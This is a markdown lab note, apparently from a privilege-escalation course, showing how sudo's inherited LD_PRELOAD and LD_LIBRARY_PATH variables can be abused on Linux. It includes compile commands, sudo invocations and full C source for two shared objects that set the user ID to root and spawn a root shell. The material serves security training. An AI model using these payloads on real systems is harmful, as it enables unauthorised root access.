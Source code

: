# apache2
1. Sudo can be configured to inherit certain environment variables from the user's environment.
	- Check which environment variables are inherited (look for the env_keep options):

			sudo -l

2. `LD_PRELOAD` and `LD_LIBRARY_PATH` are both *inherited from the user's environment.* `LD_PRELOAD` *loads a shared object* before any others when a program is run. `LD_LIBRARY_PATH` *provides a list of directories where shared libraries are searched* for first.

3. Create a shared object using the code located at */home/user/tools/sudo/preload.c*

		gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

4. Run one of the programs you are allowed to run via sudo (listed when running `sudo -l`), while setting the `LD_PRELOAD` environment variable *to the full path of the new shared object:*

		sudo LD_PRELOAD=/tmp/preload.so program-name-here

5. A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

6. Run `ldd` against the `apache2` program file to see which shared libraries are used by the program:

		ldd /usr/sbin/apache2

7. *Create a shared object with the same name as one of the listed libraries* (`libcrypt.so.1`) using the code located at /home/user/tools/sudo/library_path.c:

		gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

8. Run `apache2` using `sudo`, while settings the `LD_LIBRARY_PATH` *environment variable to* `/tmp` (where we output the compiled shared object):

		sudo LD_LIBRARY_PATH=/tmp apache2

9. A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

##### preload.c file

	#include <stdio.h>
	#include <sys/types.h>
	#include <stdlib.h>

	void _init() {
			unsetenv("LD_PRELOAD");
			setresuid(0,0,0);
			system("/bin/bash -p");
	}


##### library_path.c file

	#include <stdio.h>
	#include <stdlib.h>

	static void hijack() __attribute__((constructor));

	void hijack() {
			unsetenv("LD_LIBRARY_PATH");
			setresuid(0,0,0);
			system("/bin/bash -p");
	}

[[8. cron jobs - File permissions]]